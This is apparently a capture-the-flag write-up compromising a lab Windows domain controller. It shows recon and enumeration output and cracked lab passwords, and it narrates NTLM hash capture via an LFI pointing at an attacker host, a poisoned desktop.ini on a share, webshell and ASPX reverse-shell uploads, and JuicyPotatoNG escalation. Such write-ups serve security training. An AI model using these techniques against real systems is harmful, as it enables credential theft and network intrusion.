## RUSTSCAN

`PORT STATE SERVICE REASON VERSION 53/tcp open domain syn-ack ttl 127 Simple DNS Plus 80/tcp open http syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1) | http-methods: | Supported Methods: POST OPTIONS HEAD GET TRACE |_ Potentially risky methods: TRACE |_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1 |_http-title: g0 Aviation 88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-20 15:26:29Z) 135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn 389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name) 445/tcp open microsoft-ds? syn-ack ttl 127 464/tcp open kpasswd5? syn-ack ttl 127 593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0 636/tcp open tcpwrapped syn-ack ttl 127 3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name) 3269/tcp open tcpwrapped syn-ack ttl 127 5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-server-header: Microsoft-HTTPAPI/2.0 |_http-title: Not Found 9389/tcp open mc-nmf syn-ack ttl 127 .NET Message Framing 49667/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49673/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0 49674/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49690/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49699/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Host script results: | smb2-security-mode: | 311: |_ Message signing enabled and required | smb2-time: | date: 2023-01-20T15:27:25 |_ start_date: N/A | p2p-conficker: | Checking for Conficker.C or higher... | Check 1 (port 32072/tcp): CLEAN (Timeout) | Check 2 (port 9373/tcp): CLEAN (Timeout) | Check 3 (port 42948/udp): CLEAN (Timeout) | Check 4 (port 44855/udp): CLEAN (Timeout) |_ 0/4 checks are positive: Host is CLEAN or ports are blocked |_clock-skew: 6h59m59s`

* * *

## DNS

`┌──(root㉿DESKTOP-1KSM320)-\[/home/aleksandar/Downloads\]
└─# dig any flight.htb @10.10.11.187

; &lt;<&gt;\> DiG 9.18.10-2-Debian &lt;<&gt;> any flight.htb @10.10.11.187
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 10057
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;flight.htb. IN ANY

;; ANSWER SECTION:
flight.htb. 600 IN A 192.168.22.180
flight.htb. 3600 IN NS g0.flight.htb.
flight.htb. 3600 IN SOA g0.flight.htb. hostmaster.flight.htb. 41 900 600 86400 3600

;; ADDITIONAL SECTION:
g0.flight.htb. 3600 IN A 10.10.11.187
g0.flight.htb. 3600 IN AAAA dead:beef::bc82:d84a:d867:3eb4
g0.flight.htb. 3600 IN AAAA dead:beef::13d

;; Query time: 29 msec`

We found the read FQDN now which is g0.flight.htb.

* * *

## SMB

# So far nothing have been found, mostly we got access denied which means we need to find a proper username in order to procede with an eventual SMB enumeration.
`

# | Service Scan on flight.htb |

\[*\] Checking LDAP
\[+\] LDAP is accessible on 389/tcp
\[*\] Checking LDAPS
\[+\] LDAPS is accessible on 636/tcp
\[*\] Checking SMB
\[+\] SMB is accessible on 445/tcp
\[*\] Checking SMB over NetBIOS
\[+\] SMB over NetBIOS is accessible on 139/tcp

# ==================================================
| Domain Information via LDAP for flight.htb |

\[*\] Trying LDAP
\[+\] Appears to be root/parent DC
\[+\] Long domain name is: flight.htb

# =========================================================
| NetBIOS Names and Workgroup/Domain for flight.htb |

\[-\] Could not get NetBIOS names information via 'nmblookup': timed out

# =======================================
| SMB Dialect Check on flight.htb |

\[*\] Trying on 445/tcp
\[+\] Supported dialects and settings:
Supported dialects:
SMB 1.0: false
SMB 2.02: true
SMB 2.1: true
SMB 3.0: true
SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

# =========================================================
| Domain Information via SMB session for flight.htb |

\[*\] Enumerating via unauthenticated SMB session on 445/tcp
\[+\] Found domain information via SMB
NetBIOS computer name: G0
NetBIOS domain name: flight
DNS domain: flight.htb
FQDN: g0.flight.htb
Derived membership: domain member
Derived domain: flight

# =======================================
| RPC Session Check on flight.htb |

\[*\] Check for null session
\[+\] Server allows session using username '', password ''
\[*\] Check for random user
\[-\] Could not establish random user session: STATUS\_LOGON\_FAILURE

# =================================================
| Domain Information via RPC for flight.htb |

\[+\] Domain: flight
\[+\] Domain SID: S-1-5-21-4078382237-1492182817-2568127209
\[+\] Membership: domain member

# =============================================
| OS Information via RPC for flight.htb |

\[*\] Enumerating via unauthenticated SMB session on 445/tcp
\[+\] Found OS information via SMB
\[*\] Enumerating via 'srvinfo'
\[-\] Could not get OS info via 'srvinfo': STATUS\_ACCESS\_DENIED
\[+\] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null
`

* * *

## KERBEROS

About kerberos the only thing we can do is to run a Kerberos user bruteforce in background and hope we can find some usernames
`
msf6 auxiliary(gather/kerberos_enumusers) > run
\[*\] Running module against 10.10.11.187

\[*\] Using domain: FLIGHT.HTB - 10.10.11.187:88...
\[-\] 10.10.11.187:88 - User: "guest" account disabled or locked out
\[+\] 10.10.11.187:88 - User: "administrator" is present
`

* * *

## HTTP

Starting by checking website we see that is about a Airline company:

Checking the source code on the mainpage did't lead us somewhere.

Looking for subdomains shows us something new:
`
┌──(root㉿DESKTOP-1KSM320)-\[/home/aleksandar/Downloads\]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://flight.htb/ -H "Host: FUZZ.flight.htb" -fl 155

 /'___\  /'___\           /'___\
   /\ \__/ /\ \__/  __  __  /\ \__/
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
     \ \_\   \ \_\  \ \____/  \ \_\
      \/_/    \/_/   \/___/    \/_/

   v1.5.0 Kali Exclusive <3 

:: Method : GET
:: URL : http://flight.htb/
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
:: Header : Host: FUZZ.flight.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
:: Filter : Response lines: 155

school \[Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 45ms\]`
Let's add them to our hosts file. Now we should first see if there any juicy directories in our main website:
`
┌──(root㉿DESKTOP-1KSM320)-\[/home/aleksandar/Downloads\]
└─# dirsearch -u 'http://flight.htb/'
*|. _ _ _ _ _ *|* v0.4.3.post1
(*||| *) (/*(*|| (*| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File: /home/aleksandar/Downloads/reports/http\_flight.htb/\_\_23-01-20_10-00-56.txt
Target: http://flight.htb/
\[10:00:57\] 301 - 329B - /js -> http://flight.htb/js/
\[10:01:14\] 200 - 2KB - /cgi-bin/printenv.pl
\[10:01:17\] 301 - 330B - /css -> http://flight.htb/css/
\[10:01:23\] 301 - 333B - /images -> http://flight.htb/images/
\[10:01:23\] 200 - 5KB - /images/
\[10:01:24\] 200 - 3KB - /js/
`

So far the only folder that is interesting is that cgi-bin folder; further enumerating with bigger lists didn't give us anything more so i think is good idea to move to webdirectory enumeration on the other subdomain we found.
`
┌──(root㉿DESKTOP-1KSM320)-\[/home/aleksandar/Downloads\]
└─# dirsearch -u 'http://school.flight.htb'
*|. _ _ _ _ _ *|* v0.4.3.post1
(*||| *) (/*(*|| (*| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File: /home/aleksandar/Downloads/reports/http\_school.flight.htb/\_23-01-20_10-12-55.txt
Target: http://school.flight.htb/
\[10:12:55\] Starting:
\[10:13:16\] 200 - 2KB - /about.html
\[10:13:49\] 200 - 2KB - /cgi-bin/printenv.pl
\[10:14:24\] 200 - 3KB - /home.html
\[10:14:26\] 301 - 347B - /images -> http://school.flight.htb/images/
\[10:15:13\] 301 - 347B - /styles -> http://school.flight.htb/styles/
Task Completed
`
Again here nothing new compared to the main site. Now i have tried to search something on the main website, but no request sends from the main website -> Internal DB which means is most probably a "Rabbit hole".
Checking on the subdomains i found 2 possilbe exploits we should check, the first is that websites use the GET parameter "view" which can maybe leads us to a LFI:

The second which is most probably the machine is vulnerable to shellshock since it have a cgi-bin/ folder.

Surfing manually to the cgi script we got printed some juicy info about the environment:
`COMSPEC="C:\Windows\system32\cmd.exe" CONTEXT_DOCUMENT_ROOT="/xampp/cgi-bin/" CONTEXT_PREFIX="/cgi-bin/" DOCUMENT_ROOT="C:/xampp/htdocs/school.flight.htb" GATEWAY_INTERFACE="CGI/1.1" HTTP_ACCEPT="text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" HTTP_ACCEPT_ENCODING="gzip, deflate" HTTP_ACCEPT_LANGUAGE="en-US,en;q=0.5" HTTP_CONNECTION="close" HTTP_HOST="school.flight.htb" HTTP_UPGRADE_INSECURE_REQUESTS="1" HTTP_USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" MIBDIRS="/xampp/php/extras/mibs" MYSQL_HOME="\xampp\mysql\bin" OPENSSL_CONF="/xampp/apache/bin/openssl.cnf" PATH="C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\svc_apache\AppData\Local\Microsoft\WindowsApps" PATHEXT=".COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC" PHPRC="\xampp\php" PHP_PEAR_SYSCONF_DIR="\xampp\php" QUERY_STRING="" REMOTE_ADDR="10.10.14.3" REMOTE_PORT="44526" REQUEST_METHOD="GET" REQUEST_SCHEME="http" REQUEST_URI="/cgi-bin/printenv.pl" SCRIPT_FILENAME="C:/xampp/cgi-bin/printenv.pl" SCRIPT_NAME="/cgi-bin/printenv.pl" SERVER_ADDR="10.10.11.187" SERVER_ADMIN="postmaster@localhost" SERVER_NAME="school.flight.htb" SERVER_PORT="80" SERVER_PROTOCOL="HTTP/1.1" SERVER_SIGNATURE="<address>Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1 Server at school.flight.htb Port 80</address>\n" SERVER_SOFTWARE="Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1" SYSTEMROOT="C:\Windows" TMP="\xampp\tmp" WINDIR="C:\Windows"`

Seems like this is not the way to go..
Checking on the website someone pointed to use "responder" and in the view=//attacking\_IP/something will sniff us credentials. The idea is that Reposnder is a NTLM sniffer that can sniff from several services like SMB,FTP and so on. Giving the standard URL of a SMB share //our\_ip/fakeshare



Now we can try to decode hash with John the Ripper got us credentials:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads] └─# john svc_apache_flight.txt --wordlist=/usr/share/wordlists/rockyou.txt Using default input encoding: UTF-8 Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64]) Will run 12 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status S@Ss!K@*t13 (svc_apache) 1g 0:00:00:02 DONE (2023-01-20 11:00) 0.3846g/s 4102Kp/s 4102Kc/s 4102KC/s SAMI001..Ryanelkins Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably Session completed.`

* * *
## SMB
Now that we found our first credentials we can run againg Enum4linux and check what can we find from RPC users, groups and possible shares.

`
# | Users via RPC on flight.htb |
\[*\] Enumerating users via 'querydispinfo'
\[+\] Found 15 user(s) via 'querydispinfo'
\[*\] Enumerating users via 'enumdomusers'
\[+\] Found 15 user(s) via 'enumdomusers'
\[+\] After merging user results we have 15 user(s) total:
'1602':
username: S.Moon
name: (null)
acb: '0x00000210'
description: Junion Web Developer
'1603':
username: R.Cold
name: (null)
acb: '0x00000210'
description: HR Assistant
'1604':
username: G.Lors
name: (null)
acb: '0x00000210'
description: Sales manager
'1605':
username: L.Kein
name: (null)
acb: '0x00000210'
description: Penetration tester
'1606':
username: M.Gold
name: (null)
acb: '0x00000210'
description: Sysadmin
'1607':
username: C.Bum
name: (null)
acb: '0x00000210'
description: Senior Web Developer
'1608':
username: W.Walker
name: (null)
acb: '0x00000210'
description: Payroll officer
'1609':
username: I.Francis
name: (null)
acb: '0x00000210'
description: Nobody knows why he's here
'1610':
username: D.Truff
name: (null)
acb: '0x00000210'
description: Project Manager
'1611':
username: V.Stevens
name: (null)
acb: '0x00000210'
description: Secretary
'1612':
username: svc_apache
name: (null)
acb: '0x00000210'
description: Service Apache web
'1613':
username: O.Possum
name: (null)
acb: '0x00000210'
description: Helpdesk
'500':
username: Administrator
name: (null)
acb: '0x00004210'
description: Built-in account for administering the computer/domain
'501':
username: Guest
name: (null)
acb: '0x00000215'
description: Built-in account for guest access to the computer/domain
'502':
username: krbtgt
name: (null)
acb: '0x00020011'
description: Key Distribution Center Service Account
\[*\] Testing share ADMIN$

\[+\] Mapping: DENIED, Listing: N/A
\[*\] Testing share C $ [+] Mapping: DENIED, Listing: N/A [*] Testing share IPC$
\[+\] Mapping: OK, Listing: NOT SUPPORTED
\[*\] Testing share NETLOGON
\[+\] Mapping: OK, Listing: OK
\[*\] Testing share SYSVOL
\[+\] Mapping: OK, Listing: OK
\[*\] Testing share Shared
\[+\] Mapping: OK, Listing: OK
\[*\] Testing share Users
\[+\] Mapping: OK, Listing: OK
\[*\] Testing share Web
\[+\] Mapping: OK, Listing: OK
`

Now we have a proper list of windows users and some shares.
Checking /users we can see that there is a user C.Bum that have logged into the machine but we have no listing and unfortunately the user.txt is not into svc_apache home directory either:


The other share /Shared apparently is void or we don't have any permissions:


And lastly /Web again shows nothing:


Now we know that smb shares didn't give us anything, flag is not in svc_apache homedir and lastly we can't login with apache service account via WIN-RM service so now i guess is all about AS-RepRoasting..

We have a list of users so now we can check if any of these accounts do not require preauth:


Now that we know that no accounts in AD have the "do not require kerberos preauth" we must test other roads, and i'm thinking to kerberoast:


Nothing again i might think i have to go back to smb shares... And seems like by running crackmapexec and trying to do some password spray seems like another user called S.Moon have same credentials as svc_apache account:


Now we can't login via WIN-RM but surfing smb shares shows us only in the WEB share, basically we can dump all the webfiles:


Now we know from index.php from school website that there is a some kind of LFI protection:


Checking back all the SMB shares seems like only S.Moon have write access on the Shared folder:


Can we upload a shell on Shared and then somehow call it with a lfi?
I had to check for tips on forums and apparenlty to escalate from S.Moon->C.Boom we still need to use Responder and more specifically we want to upload on /Shared share a malicious payload that can let us snif the NTLM hash when another user opens it..
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds

Easiest is to use the tool NTLM_Thief, create a lot of payloads and then try all of them, one or two might be able to upload. I guess .ini or .lnk must works since their are always default. Now with the use of ntlm-thieft we can mass generate our files that have link to our machine listeing in responder:


And with smbmap we can upload a file(i used desktop.ini) but i guess even yovecio.lnk will work:

Edit: even .application works

Edit2: but again the only file that seems giving us a NTLM result is desktop.ini

And now we have a NTLM hash in our responder:


And we cracked a hash:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/flight.htb] └─# john --wordlist=/usr/share/wordlists/rockyou.txt c_bum.txt Using default input encoding: UTF-8 Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64]) Will run 12 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status Tikkycoll_431012284 (c.bum) 1g 0:00:00:02 DONE (2023-01-20 13:58) 0.3759g/s 3961Kp/s 3961Kc/s 3961KC/s TpstPS123456789..Tiffani29 Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably Session completed.`

Now same story again, no WIN-RM shell but now seems like C.BUM user can write on /Web share, is this the time that we can get a revshell?


We uploaded a webshell.php in Web/School.flight.htb/



Setting up a NC listener and using a php revshell we get our first shell!


To get a even better shell we can run powershell.exe and then create a powershell payload with Villain:


Now we know that our password from C.Bum is correct but we need to change user with Runas since it's not working in Evil-winrm. My idea is to upload to machine this exe: https://github.com/antonioCoco/RunasCs
And upload nc.exe:


And now testing with whoami is this works:


Following what is in the guide:


We get a shell as C.BUM in our NC, now to make it easies io crafted a payload to make a meterpreter connection so we can run a exploit suggester:


unfortunately none of these exploits did the magic so i guess we need to check more..

Going back this time i used Winpeas as exe and i found more stuff:
`
����������͹ Found Misc-Passwords1 Regexes (limited to 70)
C:\xampp\apache\conf\openssl.cnf: password = secret
C:\xampp\apache\conf\openssl.cnf: password = secret
C:\xampp\apache\conf\original\extra\httpd-ssl.conf: password: xxj31ZMTZzkVA.
C:\xampp\apache\conf\original\extra\httpd-dav.conf: password database:
C:\xampp\apache\conf\extra\httpd-ssl.conf: password: xxj31ZMTZzkVA.
����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections

  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               80            0.0.0.0               0               Listening         4580            C:\Xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               88            0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         916             svchost
  TCP        0.0.0.0               389           0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               443           0.0.0.0               0               Listening         4580            C:\Xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               464           0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               593           0.0.0.0               0               Listening         916             svchost
  TCP        0.0.0.0               636           0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               3268          0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               3269          0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               8000          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               9389          0.0.0.0               0               Listening         2788            Microsoft.ActiveDirectory.WebServices
  TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         504             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1216            svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1544            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               49673         0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               49674         0.0.0.0               0               Listening         648             lsass
  TCP        0.0.0.0               49682         0.0.0.0               0               Listening         640             services
  TCP        0.0.0.0               49690         0.0.0.0               0               Listening         2960            dns
  TCP        0.0.0.0               49699         0.0.0.0               0               Listening         2880            dfsrs
  TCP        10.10.11.187          53            0.0.0.0               0               Listening         2960            dns
  TCP        10.10.11.187          80            10.10.14.3            34022           Established       4580            C:\Xampp\apache\bin\httpd.exe
  TCP        10.10.11.187          139           0.0.0.0               0               Listening         4               System
  TCP        10.10.11.187          49748         10.10.14.3            5555            Established       4692            C:\Xampp\apache\bin\httpd.exe
  TCP        127.0.0.1             53            0.0.0.0               0               Listening         2960            dns
`

What is important here is that there is some config from IIS server:


Now we know there are some sites under C:\inetpub, now we need to know on which port are they binded?

Checking back all the listeing ports the one that caught my attention is 8000 on TCP, all the other are standard. So i tried to evolve the connection to metepreter and use the portforward but both in forward and reverse didn't work so i guess we have to use chisel.

Lauching chiser server on our kali machine:


And now we set up client on the victim:

OBS: what i was doing wrong was to use Victims Ip but 127.0.0.1 was to be used since the port 8000 is only accessible from inside the victim and not 10.10.11.187(as external site).

Now we can surf the website from ourself:

Can we upload a revshell?

 
 And can we maybe catch it in a nc?


No, seems like php is not activated on the internal website, but we know this is a IIS and then we should try aspx file instead since are by default active on IIS istances.

Let's create a shell.aspx with MSFVENOM:


"Habemus Papa" we have a shell as IIS Pool:


* * *
## ROOT
Now doing some manual enumeration we got much more permissions as IIS service user:
`
c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                           Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
PRIVILEGES INFORMATION
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
USER CLAIMS INFORMATION
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.

`

Checking here:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

Seems like we could use Printspoofer since we have "SepriviledgeImpersonation" we should be able to use it..

Attempt n.1 Printspoofer is not working:


Attempt n.2 RoguePotato is not working:


Attempt n.3 RottenPotatoNG is not working(made my whole session crash so i had to restart from svc_apache).

Last attempt JuicyPotatoNG:


And lastly we got an exploit to work, we are NTSystem with an itneractive shell and can grab the last flag.


* * *